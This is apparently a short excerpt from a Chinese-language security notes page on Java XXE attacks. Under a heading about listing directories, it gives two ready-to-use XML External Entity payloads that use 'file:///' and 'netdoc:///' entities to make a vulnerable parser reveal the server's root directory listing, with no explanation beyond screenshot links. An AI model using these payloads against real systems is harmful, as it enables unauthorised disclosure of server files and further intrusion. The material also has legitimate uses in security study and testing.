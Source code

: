![image-20230605204320348](../../../images/image-20230605204320348.png)



#### 列目录--JAVA

```xml-dtd
<!-- Root / -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE aa[
    <!ELEMENT bb ANY>
    <!ENTITY xxe SYSTEM "file:///">
]>
<root><foo>&xxe;</foo></root>
```

![image-20230607100242865](../../../images/image-20230607100242865.png)

```xml-dtd
<!-- Root / -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE aa[
    <!ELEMENT bb ANY>
    <!ENTITY xxe SYSTEM "netdoc:///">
]>
<root><foo>&xxe;</foo></root>
```
